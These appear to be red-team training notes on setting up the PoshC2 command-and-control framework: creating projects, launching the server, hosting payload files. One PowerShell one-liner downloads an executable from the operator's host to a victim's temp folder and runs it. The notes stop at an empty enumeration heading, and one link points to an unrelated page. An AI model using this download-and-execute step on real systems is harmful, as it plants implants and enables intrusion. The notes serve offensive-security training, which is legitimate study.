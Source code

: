 # CTE-For-Monkeys

- poshc2 
	- set up
	- tool familierization 
		- hosting payload
		- file upload 
		- host enumeration 
		- file download
- living of the land ( windows )
	- file downloads 
	- file (payload) execution 
- powershell 
	- user enumeration 
	- domain enumeratoin 
	- scripting


# Running PoshC2

Create a new project:

```
posh-project -n <project-name>
```

Projects can be switched to or listed using this script:
```
[*] Usage: posh-project -n <new-project-name>
[*] Usage: posh-project -s <project-to-switch-to>
[*] Usage: posh-project -l (lists projects)
[*] Usage: posh-project -d <project-to-delete>
[*] Usage: posh-project -c (shows current project)
```
Edit the configuration for your project:
```
posh-config
```
Edit `payloadcoms` to your ip

Launch the PoshC2 server:
```
posh-server
```

Alternatively start it as a service:
```
posh-service
```
Separately, run the ImplantHandler for interacting with implants:
```
posh -u <username>
```

For more on `Poshc2` github like [here](https://apple.stackexchange.com/questions/254380/why-am-i-getting-an-invalid-active-developer-path-when-attempting-to-use-git-a) 

# Host Payloads 

In the ImplantHandler run file upload command 
```
add-hosted-file
```

Host file opttions 
```
file location > /home/parrot/file.exe
file uri > /en-us/readme.md
file MIME type > text/html
Base64 > y/n
```

View all hosted files by running
```
show-hosted-files
```

# Download Payload on Victim 

For testing lets downloading using powershell on victim machine
```powershell
iwr -uri http://<youripordomian>/hosteduritring -outfile C:\windows\temp\bad.exe && C:\windows\temp\bad.exe
```

Interact with implant by typeing `1` in ImplantHandler

# Host Enumeration 



